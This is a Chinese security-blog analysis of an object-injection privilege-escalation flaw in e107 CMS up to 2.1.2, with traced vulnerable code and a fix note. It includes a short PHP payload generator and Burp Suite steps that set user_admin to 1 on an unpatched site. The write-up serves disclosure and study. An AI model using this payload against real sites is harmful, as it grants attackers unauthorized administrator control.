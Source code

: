 > 原文链接: https://www.anquanke.com//post/id/85251 


# 【漏洞分析】e107 CMS 小于等于2.1.2 权限提升漏洞分析


                                阅读量   
                                **97383**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



****

****

**[![](https://p2.ssl.qhimg.com/t010d49bf0a6b4a734a.png)](https://p2.ssl.qhimg.com/t010d49bf0a6b4a734a.png)**

**<br>**

**作者：**[**西风微雨******](http://bobao.360.cn/member/contribute?uid=419303956)

**预估稿费：100RMB（不服你也来投稿啊！）**

**<strong><strong>投稿方式：发送邮件至**[**linwei#360.cn**](mailto:linwei@360.cn)**，或登陆**[**网页版**](http://bobao.360.cn/contribute/index)**在线投稿**</strong></strong>



**0x00 漏洞背景**

e107 CMS是一个基于PHP、Bootstrap、Mysql的网站内容管理系统，可广泛用于个人博客、企业建站，在全球范围内使用较为广泛。

<br>

**0x01 漏洞影响版本**

version &lt;=2.1.2

<br>

**0x02 漏洞分析环境**

运行环境:macOS10.12.2 + apache2.4.23 + PHP5.6.27 + Mysql5.7.16

e107 CMS版本：v2.1.2

<br>

**0x03 漏洞详情**

首先我们从rips的扫描报告[https://blog.ripstech.com/2016/e107-sql-injection-through-object-injection/](https://blog.ripstech.com/2016/e107-sql-injection-through-object-injection/)中可以大致知道整个漏洞的触发是利用反序列化漏洞来进行数据库数据修改，进一步进行权限提升。 接下来，我们就来对整个触发流程进行分析：

**1.首先我们注册普通用户test2,原始邮箱地址为test22@1.com**；我们可以看到**user_admin**字段为0（e107 CMS以**user_admin**字段标示用户权限，1为管理员，0为普通用户），因此**test2**是普通用户；接下来我们进入**/e107/usersettings.php**修改邮箱

[![](https://p0.ssl.qhimg.com/t01bac9dfea8078687d.png)](https://p0.ssl.qhimg.com/t01bac9dfea8078687d.png)

**2.反序列化漏洞及数据库注入漏洞代码跟踪**

变量关系注释：$_POST[‘updated_data’]为base64编码的值，$new_data是base64解码后的值是一个序列化的值，$changedUserData为反序列化后的值，是一个数组。

首先跟进**usersettings.php** 353-387行的代码



```
353  $new_data = base64_decode($_POST['updated_data']);
  ...
387   $changedUserData = unserialize($new_data);
```

353行中用户可控变量**$_POST['updated_data']**未经进一步处理就直接在387行中进行了反序列化，并将数据赋值给**$changedUserData**变量，以便进一步操作.

继续跟进**$changedUserData**变量



```
455 $changedData['data'] = $changedUserData;
    ...
460 if (FALSE === $sql-&gt;update('user', $changedData))
```

**$changedUserData**变量在460行进入mysql类方法，跟进**/e107_handlers/mysql_class.php**中的**update**函数



```
1160 function update($tableName, $arg, $debug = FALSE, $log_type = '', $log_remark = '') `{`
1162 $arg = $this-&gt;_prepareUpdateArg($tableName, $arg);
   ...
1183 $result = $this-&gt;mySQLresult = $this-&gt;db_Query($query, NULL, 'db_Update');
```

跟进**_prepareUpdateArg**函数



```
1083 private function _prepareUpdateArg($tableName, $arg) `{`
1084    ...
1085    foreach ($arg[‘data’] as $fn =&gt; $fv) `{`
1086     $new_data .= ($new_data ? ', ' : '');
1087    $ftype = isset($fieldTypes[$fn]) ? $fieldTypes[$fn] : 'str';
1088    $new_data .= "`{`$fn`}`=".$this-&gt;_getFieldValue($fn, $fv, $fieldTypes);
1089        ...
1090    `}`
1091   return $new_data .(isset($arg[‘WHERE’]) ? ' WHERE '. $arg['WHERE'] : '');
```

跟进**_getFieldValue**函数



```
1247 function _getFieldValue($fieldKey, $fieldValue, &amp;$fieldTypes) `{`
1248 $type = isset($fieldTypes[$fieldKey]) ? $fieldTypes[$fieldKey] : $fieldTypes['_DEFAULT'];
1249   switch ($type) `{`
1250       case 'str':
1251       case 'string':
1252   return "'".$this-&gt;escape($fieldValue, false)."'";
```

可以看出**$changedUserData**变量仅仅被拆分开来，而没有做进一步校验是否有恶意参数，因此只要**$changedUserData**中包含恶意的user表字段，便能够任意修改数据表中的值。

**3.漏洞利用**

首先我们来看看测试正常修改邮箱的数据格式,测试更改邮箱为**22test2@1.com**

[![](https://p5.ssl.qhimg.com/t01181a414f42ee7de6.png)](https://p5.ssl.qhimg.com/t01181a414f42ee7de6.png)

这里就可以清楚地看到，**$new_data**变量为被修改数据序列化的值，**$changedUserData**为**$new_data**反序列化后的值,数据校验成功后，**$changedUserData**就会被拆分，然后进入**$sql-&gt;update**函数执行，进而任意修改数据库数据。

那么，我们如何利用这个漏洞链呢？

要做到提权操作，我们就需要更新**test2**用户的**user_admin**字段，并且在修改**$new_data**变量的值后，必须顺利通过**usersetings.php**的两个if语句检查：



```
358 if (md5($new_data) != $_POST['updated_key'] || ($userMethods-&gt;hasReadonlyField($new_data) !==false))
    ...
366 if (md5($new_extended) != $_POST['extended_key'])
```

从358行来看，我们在抓包修改**$_POST['updated_data']**的同时需要修改掉**$_POST['updated_key']**，使之满足md5值校验。 我使用如下的php代码生成**update_key**和**updated_data**



```
/* php code */
$a = array('user_email'=&gt;'2test2@1.com','user_admin'=&gt;1);
$b = serialize($a);
echo 'updated_data is: '.$b;
echo 'update_key is : '.md5($b);
/* php code */
```

接下来使用burpsuite抓包修改**$_POST['updated_data']**为以及**$_POST['update_key']**（注意:e107 在修改邮箱时会验证密码，我们只修改校验了密码之后的数据包，如下图：）

[![](https://p0.ssl.qhimg.com/t01c0d9d4a15fe48e3b.png)](https://p0.ssl.qhimg.com/t01c0d9d4a15fe48e3b.png)

成功反序列化:

[![](https://p5.ssl.qhimg.com/t014beef9cab0c90bc5.png)](https://p5.ssl.qhimg.com/t014beef9cab0c90bc5.png)

查看数据库字段，发现**test2**用户的**user_admin**字段已经被成功修改为1，权限提升成功

[![](https://p5.ssl.qhimg.com/t018cf661c5627135f1.png)](https://p5.ssl.qhimg.com/t018cf661c5627135f1.png)

**test2**用户成功进入后台管理面板:

[![](https://p0.ssl.qhimg.com/t01b65ef08b591d3d2f.png)](https://p0.ssl.qhimg.com/t01b65ef08b591d3d2f.png)

<br>

**0x04 漏洞修复 **

升级e107 CMS至2.1.3版本

<br>

**0x05 漏洞总结 **

此漏洞的修复过程也有些许奇妙，Kacper Szurek安全研究员早在2016年6月就在2.1.1版本发现了此漏洞，官方多次修复均被饶过，并且在2.1.2版本中仍未修复，或许官方暂未找到更好的修复方法，此漏洞便一度被搁置；直到2016年11月RIPS再次报告漏洞，官方终于在2.1.3版本的修复中完全重写了usersettings.php文件，以修复包括此漏洞在内的多个漏洞。 另外，此篇文章在我的个人博客中也有备份：[https://lightrains.org/e107-cms-privilege-escalation/](https://lightrains.org/e107-cms-privilege-escalation/)。

<br>

**0x06 参考链接**

[https://blog.ripstech.com/2016/e107-sql-injection-through-object-injection/](https://blog.ripstech.com/2016/e107-sql-injection-through-object-injection/)

[http://security.szurek.pl/e107-cms-211-privilege-escalation.html](http://security.szurek.pl/e107-cms-211-privilege-escalation.html)

[https://github.com/e107inc/e107/commit/6a306323d4a14045d9ee4fe80f0153a9555fadff#diff-dbac6e5a7c66d48e23884c0968e6dad7](https://github.com/e107inc/e107/commit/6a306323d4a14045d9ee4fe80f0153a9555fadff#diff-dbac6e5a7c66d48e23884c0968e6dad7)

[https://github.com/e107inc/e107/commit/0af67301ea2743536ba8f3fe74751e000e3f495d#diff-dbac6e5a7c66d48e23884c0968e6dad7](https://github.com/e107inc/e107/commit/0af67301ea2743536ba8f3fe74751e000e3f495d#diff-dbac6e5a7c66d48e23884c0968e6dad7)

[https://github.com/e107inc/e107/commit/dd2cebbb3ccc6b9212d64ce0ec4acd23e14c527](https://github.com/e107inc/e107/commit/dd2cebbb3ccc6b9212d64ce0ec4acd23e14c527)
